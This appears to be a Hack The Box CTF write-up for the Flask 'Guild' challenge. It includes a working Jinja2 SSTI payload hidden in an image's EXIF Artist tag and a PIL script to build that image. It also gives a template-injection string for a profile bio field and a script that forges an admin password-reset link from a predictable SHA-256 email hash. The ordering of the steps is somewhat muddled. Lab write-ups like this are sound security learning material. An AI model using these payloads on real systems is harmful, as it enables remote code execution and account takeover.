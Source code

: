 # Hack The Box CTF Writeup - Guild


##Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

##Vulnerabilities and Exploitation
###1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.
<img src="https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/upload.png">
Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

###2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

<img src="https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png">

<img src="https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png">

###3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Tthen verify the uploaded image
<img src="https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/flag.png">


Steps to Exploit:
Update Bio:
Input the malicious payload in the bio field.
If the input validation is bypassed, the payload will be stored in the database and executed when rendered.
Flag Retrieval
To retrieve the flag:

Reset the admin password using the generated password reset link.
Log in as admin and verify the malicious image.
The injected payload in the EXIF "Artist" tag will execute and display the flag.
